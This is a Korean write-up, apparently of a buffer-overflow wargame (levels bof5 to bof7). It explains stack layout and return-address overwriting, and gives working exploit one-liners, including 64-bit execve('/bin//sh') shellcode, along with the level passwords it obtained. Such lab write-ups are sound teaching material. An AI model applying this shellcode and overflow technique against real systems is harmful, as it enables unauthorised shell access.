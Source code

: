 # 싱글벙글 가륜이의 문제풀이 (bof5~7)

<br/>

## __문제 접근__:

> 1. 코드를 읽고 스택의 구조를 파악한다.  
> 이번 문제들은 이전과 다르게 쉘코드를 직접 실행시켜야 한다.
> 2. 버퍼의 주소를 파악한다.
> 3. 버퍼와 SFP의 크기를 파악한다.
> 4. bof로 리턴을 쉘코드로 할 수 있도록 조작한다.
> 5. 그후 쉘을 얻을 수 있다.

</br>  

## __구체적 풀이__:

> 5. bof5는 표준입력으로 부터 값을 받는다.  
> 이전 문제들과 다르게 쉘을 실행하는 코드가 없다. [  system(buf) ]  
> 시스템에 버퍼를 넣으므로 버퍼에 쉘코드를 넣어주면 된다.
> bin/sh + null + dummy + stack 
> bof6.pw : b35aad61

> 6. bof6는 표준입력으로 부터 값을 받는다
> 쉘코드가 프로그램 내에 이미 존재한다
> bof 사용 -> 버퍼의 크기는 128 + 8(SFP) + 쉘코드 로 작성한다.  
> (python -c "print 'x' * 136 + '\x30\xeb\xff\xff\xff\x7f'";cat) | ./bof6  
> bof3.pw : ffa35d7e

> 7. bof7는 명령줄 인자로 부터 값을 받는다.  
> 64비트 프로그램이라 64비트 쉘코드가 필요하다.
> \x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x56\x53\x54\x5f\x6a\x3b\x58\x31\xd2\x0f\x05  
> 이 문제에서 가장 중요한것은 명령줄 인자로 값을 넘겨주면 스택의 주소위치가 달라진다는 점이다. 임의의 값을 전달하고 스택 위치를 먼저 찾는다.  
> ./bof7 \`python -c "print '\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x56\x53\x54\x5f\x6a\x3b\x58\x31\xd2\x0f\x05' + 'x' * 113 + '\xb0\xea\xff\xff\xff\x7f'"`  
> bof8.pw : 0dc54105